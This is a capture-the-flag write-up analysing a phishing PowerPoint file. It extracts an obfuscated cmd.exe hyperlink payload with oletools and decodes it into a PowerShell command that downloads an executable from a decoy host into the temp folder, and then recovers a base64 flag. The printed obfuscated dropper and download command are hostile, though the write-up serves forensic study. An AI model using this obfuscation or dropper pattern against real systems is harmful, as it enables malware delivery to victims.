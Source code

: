 ```yaml
---
title: "Hack The Box: Alienphish"
date: 2021-04-26T18:20:20-05:00
draft: false
pager: true
authorbox: false
toc: true
categories: ["forensics","writeups","ctf","hackthebox"]
thumbnail: writeups-reports/files/alienphish-thumbnail.PNG
---
```


This CTF was part of the event hosted at ctf.hackthebox.eu "Cyberapocalypse".
Mission: Find a payload and a flag inside "Alien Weaknesses.pptx",

<!--more-->
---

### Extracting objects from phishing .pptx file

**Using oletools:**

	argandov@Kali:/mnt/c/Users/nitro/Downloads/forensics_alienphish$ oleobj 'Alien Weaknesses.pptx'
	oleobj 0.56.1 - http://decalage.info/oletools
	THIS IS WORK IN PROGRESS - Check updates regularly!
	Please report any issue at https://github.com/decalage2/oletools/issues

	-------------------------------------------------------------------------------
	File: 'Alien Weaknesses.pptx'
	Found relationship 'hyperlink' with external link cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&&for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&&if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22
	Found relationship 'hyperlink' with external link cmd.exe

	cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&&for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&&if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22

*We could also unzip the .pptx file and look into each .xml inside it.

## Decoding our strange cmd instruction string

**Using a javascript console:**

	decodeURI("cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&&for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&&if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22")

**result:**

	"cmd.exe /V:ON/C\"set yM=\"o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q' + pmet:vne$ = o$\" c- llehsrewop&&for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&&if %X leq 0 call %kCX:*kCX!=%\""

**Making sense of our cmd instruction set:**

I chose to reverse the whole string between the variable "yM" assignment and the start of the "for loop", getting this:

	powershell -c \"$o = $env:temp + 'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o\"

*This can also be done with bash:*

		argandov@Kali:~$ cat cmd_instr.txt | rev

	    *Thanks to @Networkrecon for the tip*

**The instructions then are clear:**

1. ```/V:ON``` -> delayed environment variable expansion
2. ```/C``` -> "Carries out the command specified by string and then stops"

Then stores the reversed instruction into a variable called ```yM```, which will be iterated through, character by character to get a new string, which then will be executed by ```call %kCX:*kCX!=%```.

Our variable "o" consists on the temp directory + a strange looking name for a .exe file, which is the name of the "outfile" used by powershell to get the iwr function: ```iwr http:/destroyearth.alien/x.exe -outfile $o\"``` uses "Invoke web request" or "iwr", reaching out to some remote server, to get a "x.exe" file, and will then try to store it with "-outfile" as our "o" variable.

## Follow your instincts and get the flag!

The fact that "Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe" is not reasonable at all, and that the remote http server is called only with one slash "/", calls to our attention that there is something about the name of the .exe itself and that the domain "destroyearth.alien" is only a decoy for this exercise.

After some testing, we decoded the "Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99" name of the executable from Base64:

	argandov@Kali:~$ echo Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99 | base64 -d
	CHTB{pH1sHiNg_w0_m4cr0sbase64: invalid input

**And we got our flag!**

There was no reason to think "Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe" could be the flag itself, base64 encoded, so I guess this was pure luck!
